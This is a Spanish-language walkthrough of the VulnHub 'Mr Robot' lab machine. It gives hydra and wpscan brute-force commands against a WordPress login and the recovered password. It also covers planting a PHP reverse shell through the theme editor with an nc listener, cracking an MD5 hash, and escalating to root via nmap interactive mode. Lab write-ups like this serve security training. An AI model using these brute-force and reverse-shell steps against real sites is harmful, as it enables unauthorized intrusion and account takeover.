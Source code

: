 ```yaml
---
title: "MrRobot"
excerpt: "Writeup de MrRobot."
header:
  teaser: ""
tags:
  - vulnhub
  - easy
  - writeup
categories:
  - vulnhub
---
```



https://www.vulnhub.com/entry/mr-robot-1,151/

```bash
sudo nmap -vvv -sS -sV -O 192.168.1.0/24
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/1.png){: .align-center}

Saldrá una IP con el puerto 80 abierto

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/2.png){: .align-center}

Abrir navegador e ir a la IP, en este caso

```bash
192.168.1.132
```
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/3.png){: .align-center}

Realizar un gobuster para ver los directorios ocultos en la web

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/4.png){: .align-center}

Saldrán varios directorios, entre ellos uno llamado /robots

Ir a `192.168.122.132/robots`

Saldrán varias cosas

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/5.png){: .align-center}

Entrar a `/fsociety.dic` y se descargará un diccionario

 Entrar a `/key-1-of-3.txt`

 ![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/6.png){: .align-center}

Ir a `192.168.122.132/wp-login.php`

## Usar hydra

### Encontrar un usuario con hydra

```bash
sudo hydra –t 64 –L fsociety.dic -p 1234 192.168.122.132 http-form-post "/wp-login:log=^USER^&pwd=^PASS^:invalid"
```

### Encontrar contraseña

```bash
sudo hydra –t 64 –l usuario_a_usar -P fsociety.dic 192.168.122.132 http-form-post "/wp-login:log=^USER^&pwd=^PASS^:invalid"
```
### Encontrar usuario y contraseña juntos

```bash
sudo hydra –t 64 –L fsociety.dic -P fsociety.dic 192.168.122.132 http-form-post "/wp-login:log=^USER^&pwd=^PASS^:invalid"
```
 ![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/7.png){: .align-center}

Encontrará el usuario Elliot, en sus diferentes variantes con mayúsculas y minúsculas.

```bash
sudo wpscan –url 192.168.122.132 -P fsociety.dic --usernames Elliot
```
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/8.png){: .align-center}

 Encontrará una contraseña al final del proceso

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/9.png){: .align-center}

Entrar en el login con el usuario Elliot y la contraseña ER28-0652

```bash
192.168.122.132/wp-login.php
```
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/10.png){: .align-center}

Ir al editor de temas

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/11.png){: .align-center}

Copiar `php-reverse-shell.php` de `/usr/share/webshells/php` a `~/Documentos`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/12.png){: .align-center}

Cambiar el propietario del archivo con chown para poder editarlo

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/13.png){: .align-center}

Editarlo con nano para que lo IP sea la de nuestro equipo y el puerto que queramos poner como escucha

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/14.png){: .align-center}

Usar el comando `nc` para escuchar desde ese puerto

```bash
nc -nlvp 4444
```
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/15.png){: .align-center}

Ingresar un enlace inválido en wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/16.png){: .align-center}

Se nos abrira una shell

Entrar al directorio de wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/17.png){: .align-center}

Leer el archivo `wp-config.php`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/18.png){: .align-center}

Mirar los usuarios del equipo entrando al directorio `/home` y usando el comando

```bash
ls –l
```
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/19.png){: .align-center}

Entrar al directorio de robot y ver el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/20.png){: .align-center}

Leer el archivo `password.raw-md5`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/21.png){: .align-center}

Descifrar el hash desde la web de dcode.fr/md5-hash

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/22.png){: .align-center}

Usamos el siguiente comando en python

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/23.png){: .align-center}

Cambiar de usuario a robot

```bash
su robot
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/24.png){: .align-center}

Ir al home y ver el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/25.png){: .align-center}

Leer el archivo `key-2-of-3.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/26.png){: .align-center}

Entrar a nmap en modo interactivo

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/27.png){: .align-center}

Cambiar a shell

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/28.png){: .align-center}

Aparecerá con el usuario root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/29.png){: .align-center}

Ir al directorio `/root`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/30.png){: .align-center}

Leer los archivos

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/31.png){: .align-center}

## Keys


### Key1
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/dobby_hogwarts/1.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/32.png){: .align-center}

### Key2

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/33.png){: .align-center}

### Key3

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/34.png){: .align-center}
